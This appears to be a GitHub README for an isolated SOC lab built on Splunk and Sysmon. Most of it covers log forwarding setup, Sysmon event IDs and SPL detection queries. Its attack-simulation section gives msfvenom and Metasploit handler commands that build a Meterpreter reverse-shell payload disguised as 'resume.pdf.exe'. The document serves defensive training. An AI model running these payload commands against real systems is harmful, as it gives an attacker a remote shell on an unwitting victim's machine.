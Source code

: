 # SOC Project – Splunk Lab: Monitor, Attack Simulation & Detection

## Overview

This project demonstrates the setup and use of a Security Operations Center (SOC) lab environment using **Splunk Enterprise**, **Sysmon**, and **Windows/Linux endpoints**. The objective is to simulate an attack within a controlled lab network, capture the telemetry generated, and use Splunk to analyze and detect the malicious activity.

The project follows a typical SOC workflow:

1. **Monitoring**: Collecting logs from multiple endpoints.
2. **Attack Simulation**: Executing a controlled adversary scenario (reverse shell).
3. **Detection**: Using Splunk and Sysmon telemetry to identify and analyze malicious behavior.

> ⚠️ **Disclaimer:** This experiment was performed in an isolated lab environment with no internet access. All offensive tools were used strictly for educational and defensive security purposes.

---

## 1. Lab Architecture

### Components

* **Splunk Enterprise Server (Ubuntu 22.04)** – Acts as the central SIEM server.
* **Windows 11 Endpoint** – Acts as the victim machine.
* **Kali Linux** – Simulates the attacker machine.

### Network Setup

All machines were configured on a **host-only virtual network**, ensuring complete isolation from the internet.

**Data Flow:**

```
Windows 11 (Sysmon + Splunk Universal Forwarder) → Splunk Server (Ubuntu)
Linux host logs → Splunk Server (local input)
```

![Architecture Diagram]()

---

## 2. Environment Setup

### Splunk Installation (Ubuntu 22.04)

```bash
sudo dpkg -i splunk-10.0.1-c486717c322b-linux-amd64.deb
sudo /opt/splunk/bin/splunk start --accept-license
```

Enable Splunk to start at boot:

```bash
sudo /opt/splunk/bin/splunk enable boot-start
```

### Sysmon Installation (Windows 11)

1. Download Sysmon from Sysinternals.
2. Install using a custom configuration file:

```powershell
Sysmon64.exe -accepteula -i sysmonconfig.xml
```

### Splunk Universal Forwarder (Windows 11)

1. Install Splunk UF and set forwarding to Splunk Server:

```powershell
splunk add forward-server <Splunk-IP>:9997 -auth admin:<password>
```

2. Configure inputs in `C:\Program Files\SplunkUniversalForwarder\etc\system\local\inputs.conf`:

```ini
[WinEventLog://Security]
index=wineventlog

[WinEventLog://System]
index=wineventlog

[WinEventLog://Application]
index=wineventlog

[WinEventLog://Microsoft-Windows-Sysmon/Operational]
index=sysmon
```

3. Restart the forwarder:

```powershell
splunk restart
```

---

## 3. Attack Simulation

### Objective

Simulate an attacker (Kali) delivering a reverse TCP payload to the Windows endpoint to test telemetry visibility.

### Steps

1. On Kali, create a reverse shell payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Kali-IP> LPORT=4444 -f exe -o resume.pdf.exe
```

2. Deliver payload to Windows (manually transferred within the host-only network).
3. Start Metasploit listener:

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <Kali-IP>
set LPORT 4444
run
```

4. Execute the payload on the Windows 11 machine.

![Attack Execution Screenshot]()

Once executed, the attacker successfully established a reverse shell session back to the Kali machine.

---

## 4. Telemetry Collection & Detection

### Sysmon Event Monitoring

Sysmon generated several key event types:

* **Event ID 1** – Process creation (`resume.pdf.exe`)
* **Event ID 3** – Network connection to attacker IP (port 4444)
* **Event ID 10** – Process access (post-exploitation)

These events were forwarded to Splunk via the Universal Forwarder.

### Splunk Queries (SPL)

#### Detecting the Malicious Executable

```spl
index=sysmon Image="*resume.pdf.exe" | table _time, host, User, ParentImage, CommandLine
```

#### Detecting Reverse Shell Connection

```spl
index=sysmon EventCode=3 DestinationPort=4444 | table _time, Image, DestinationIp, DestinationPort
```

#### Correlating Parent/Child Process Chain

```spl
index=sysmon EventCode=1 Image="*resume.pdf.exe" OR Image="*cmd.exe" OR Image="*powershell.exe"
| table _time, ParentImage, Image, CommandLine
```

### Data Model Example (if CIM enabled)

```spl
| datamodel Endpoint Processes search process_name="resume.pdf.exe"
| table _time, user, process, parent_process, dest
```

These queries revealed a suspicious process chain:

```
explorer.exe → resume.pdf.exe → cmd.exe → powershell.exe
```

This strongly indicated post-exploitation activity consistent with malware execution.

![Detection Screenshot]()

---

## 5. Conclusion & Lessons Learned

### Key Takeaways

* Successfully built an isolated SOC lab simulating real-world attack telemetry.
* Verified the ability of Splunk + Sysmon to capture and analyze endpoint activity.
* Demonstrated the importance of Sysmon configuration tuning to ensure high-fidelity event logging.
* SPL queries effectively detected malicious behaviors like reverse shells and encoded PowerShell commands.

### Lessons Learned

* Isolation is everything: Internal-only networking keeps experiments safe.
* User deception is trivial: Double extensions (.pdf.exe) still trick users. Enable “show file extensions.”
* Least privilege matters: Admin users make attacker life easy; standardize non-admin daily use.
Application control helps: Use AppLocker/allow-listing to block unknown binaries (especially in user-write paths).
* EDR + Logging: Keep Defender/EDR enabled with tamper protection; Sysmon + SIEM provide the forensic truth.
* Detections to keep: Alert on suspicious parent/child combos (e.g., *.pdf.exe → cmd.exe, cmd.exe → net.exe) and unusual outbound connections from user processes.


---

## 6. Future Improvements

* Develop **alerting rules** (correlation searches) in Splunk.
* Visualize process/network telemetry via **dashboards**.

---

## References

* [Sysmon Documentation – Microsoft Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
* [Splunk Common Information Model Add-on](https://splunkbase.splunk.com/app/1621/)
* [MITRE ATT&CK Framework](https://attack.mitre.org/)

---

> Author: crab241
> For educational and research purposes only.
